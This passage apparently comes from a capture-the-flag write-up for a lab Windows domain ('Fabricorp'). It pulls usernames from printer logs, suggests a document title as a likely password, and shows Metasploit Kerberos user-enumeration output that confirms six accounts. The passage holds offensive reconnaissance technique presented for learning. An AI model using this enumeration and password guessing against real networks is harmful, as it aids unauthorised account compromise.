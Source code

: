 Each of the three pages contained potential usernames and client computer names in the print history and a number of interesting sounding document titles.

```text
Time        User        Pages    Copies    Printer        Document                        Client    Duplex    Grayscale
Print Logs - 29 May 2020
17:50:10     pmerton     1     1     HP-MFT01     New Starter - bnielson - Notepad LETTER, 19kb, PCL6    JUMP01     No     Yes
17:53:55     tlavel         1     1     HP-MFT01     IT Budget Meeting Minutes - Notepad LETTER, 52kb, PCL6     LONWK015 No     Yes

Print Logs - 30 May 2020
16:37:45     sthompson     1     1     HP-MFT01     backup_tapes - Notepad LETTER, 20kb, PCL6     LONWK019     No     Yes
16:42:19     sthompson     1     1     HP-MFT01     mega_mountain_tape_request.pdf LETTER, 20kb, PCL6     LONWK019     No     No
17:07:06     sthompson     1     1     HP-MFT01     Fabricorp01.docx - Word LETTER, 153kb, PCL6     LONWK019     No     Yes

Print Logs - 10 Jun 2020
17:40:21     bhult         1     1     HP-MFT01     offsite_dr_invocation - Notepad LETTER, 19kb, PCL6     LAPTOP07     No     Yes
19:18:17     administrator     1     1     HP-MFT01     printing_issue_test - Notepad LETTER, 16kb, PCL6     FUSE     No     Yes
```

I found six potential usernames \(including `bnielson` in one of the document titles. The document title `Fabricorp01.docx` also stuck out to me as looking like the perfect type of thing that corporate users would likely use as a password.  

```text
msf5 auxiliary(gather/kerberos_enumusers) > run
[*] Running module against 10.10.10.193

[*] Validating options...
[*] Using domain: FABRICORP...
[*] 10.10.10.193:88 - Testing User: "pmerton"...
[*] 10.10.10.193:88 - KDC_ERR_PREAUTH_REQUIRED - Additional pre-authentication required
[+] 10.10.10.193:88 - User: "pmerton" is present
[*] 10.10.10.193:88 - Testing User: "tlavel"...
[*] 10.10.10.193:88 - KDC_ERR_PREAUTH_REQUIRED - Additional pre-authentication required
[+] 10.10.10.193:88 - User: "tlavel" is present
[*] 10.10.10.193:88 - Testing User: "sthompson"...
[*] 10.10.10.193:88 - KDC_ERR_PREAUTH_REQUIRED - Additional pre-authentication required
[+] 10.10.10.193:88 - User: "sthompson" is present
[*] 10.10.10.193:88 - Testing User: "bhult"...
[*] 10.10.10.193:88 - KDC_ERR_PREAUTH_REQUIRED - Additional pre-authentication required
[+] 10.10.10.193:88 - User: "bhult" is present
[*] 10.10.10.193:88 - Testing User: "administrator"...
[*] 10.10.10.193:88 - KDC_ERR_PREAUTH_REQUIRED - Additional pre-authentication required
[+] 10.10.10.193:88 - User: "administrator" is present
[*] 10.10.10.193:88 - Testing User: "bnielson"...
[*] 10.10.10.193:88 - KDC_ERR_PREAUTH_REQUIRED - Additional pre-authentication required
[+] 10.10.10.193:88 - User: "bnielson" is present
[*] Auxiliary module execution complete
```
